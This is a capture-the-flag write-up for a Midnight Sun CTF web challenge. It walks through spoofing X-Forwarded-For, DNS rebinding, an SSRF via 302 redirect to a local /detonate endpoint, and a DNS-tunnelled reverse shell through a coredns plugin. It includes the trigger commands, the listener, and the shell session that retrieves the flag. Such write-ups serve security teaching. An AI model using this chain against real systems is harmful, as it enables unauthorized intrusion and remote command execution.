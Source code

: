 #Exploitation

## Putting together the inital request:

1) X-Forwarded-For bypass:
Include the header with the IP

2) IP check bypass
Include multiple IPs in a domain entry or use DNS rebinding (like rbndr.us). DNS Rebinding was the intended solution

3) How to use /detonate and satisfy the 127.0.0.1 ip check:

Send a 302 redirect to SSRF the webserver into making a local request calling the detonate endpoints.

python3 redir.py 80 http://127.0.0.1:15555/detonate?name=supersecretabc123xyz\&url=http://0x0y0z/payload

Our trigger looks like this
curl -H "X-Forwarded-For: 95.173.136.71" kgb.target:15555/scan?url=http://0x0y0z.d5184c01.rbndr.us/

## Stage 2 -- Detonator

The hint for the challenge says `DeNiS Sergeev wants a secret mission payload.`, alluding to DNS. 

1) Run coredns with the https://github.com/adc/coredns-tunnelshell plugin installed. 

You can use a configuration like this:
```
tunnel.yourdomain.com {
  hosts {
	95.173.136.72 kgb.tunnel.yourdomain.com
	1.2.3.4 kgb.tunnel.yourdomain.com
	fallthrough
  }

  tunnelshell

  log
  errors
}

#./coredns -conf config

```

```
curl -H "X-Forwarded-For: 95.173.136.71" kgb.target:15555/scan?url=http://0x0y0z.d5184c01.rbndr.us/
```


2) Connect to the coredns socket and wait for a connection to show up
nc localhost 1337

In coredns you'll know when the reverse tunnel works when you see requests coming in
```
[INFO] 162.158.104.220:34913 - 24862 "TXT IN 2420-0-660faeac.tunnel.yourdomain.com. udp 63 true 1452" NOERROR qr,aa 100 0.000447496s
[INFO] 162.158.104.148:59983 - 7850 "TXT IN 00-1-2317440.tunnel.yourdomain.com. udp 60 true 1452" NOERROR qr,aa 94 0.000248969s
[INFO] 162.158.104.148:22594 - 53984 "TXT IN 00-2-5d586564.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.000110636s
[INFO] 162.158.104.148:63962 - 48204 "TXT IN 00-3-105ae3a3.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.00010058s
[INFO] 162.158.104.149:65071 - 57369 "TXT IN 00-4-22e00cc.tunnel.yourdomain.com. udp 60 true 1452" NOERROR qr,aa 94 0.000239648s
[INFO] 162.158.104.148:29410 - 15723 "TXT IN 00-5-6c60fe9a.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.00022385s
[INFO] 162.158.104.220:46404 - 39031 "TXT IN 00-6-4aae60dc.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.000100155s
```

```
bash-3.2# nc localhost 1337
[+] connected to coredns-tunnelshell

$ uname -a
Linux dbed26620181 5.17.0-051700-generic #202203202130 SMP PREEMPT Sun Mar 20 21:33:41 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
$ ls
bin	     etc    lib64				 mnt   run   tmp
boot	     home   libx32				 opt   sbin  usr
detonations  lib    media				 proc  srv   var
dev	     lib32  midnightsun.ctf.kgbfskfsb_detonator  root  sys
$ ls -al
total 6416
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 .
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 ..
drwxr-xr-x   1 root   root    4096 Apr  4 04:30 .do
-rwxr-xr-x   1 root   root       0 Apr  4 04:31 .dockerenv
lrwxrwxrwx   1 root   root       7 Mar 15 11:49 bin -> usr/bin
drwxr-xr-x   2 root   root    4096 Nov  8 11:34 boot
drwxr-xr-x   2 nobody root    4096 Apr  4 04:20 detonations
drwxr-xr-x   5 root   root     340 Apr  4 04:31 dev
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 etc
drwxr-xr-x   2 root   root    4096 Nov  8 11:34 home
lrwxrwxrwx   1 root   root       7 Mar 15 11:49 lib -> usr/lib
lrwxrwxrwx   1 root   root       9 Mar 15 11:49 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root       9 Mar 15 11:49 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root      10 Mar 15 11:49 libx32 -> usr/libx32
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 media
-rwxr-xr-x   1 root   root 6501290 Apr  4 04:30 midnightsun.ctf.kgbfskfsb_detonator
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 mnt
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 opt
dr-xr-xr-x 418 root   root       0 Apr  4 04:31 proc
drwx------   2 root   root    4096 Mar 15 11:52 root
drwxr-xr-x   5 root   root    4096 Mar 15 11:52 run
lrwxrwxrwx   1 root   root       8 Mar 15 11:49 sbin -> usr/sbin
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 srv
dr-xr-xr-x  13 root   root       0 Apr  4 04:31 sys
drwxrwxrwt   1 root   root    4096 Apr  3 00:05 tmp
drwxr-xr-x  14 root   root    4096 Mar 15 11:49 usr
drwxr-xr-x   1 root   root    4096 Mar 15 11:52 var
$ ls -R .do
.do:
you

.do/you:
see

.do/you/see:
the

.do/you/see/the:
answer

.do/you/see/the/answer:
runme
$ .do/you/see/the/answer/runme
1070352547 +1 = ?
1070352548
midnight{flag}

```


## MISC:

Some teams were using chashell and it failed for them. Chashell has a bug where they dont set the authoritative flag.
You can patch their server code with	

```
m.MsgHdr.Authoritative = true 
```


## Other solutions

Some teams decided to re-exploit 'kgbfskfsb' as an alternative to DNS. This is a bit harder and unreliable, but a very valid
way to exfiltrate data back out of the system. When exploiting the service it would fetch the team's URL to relay information.

The docker set up does not stop this



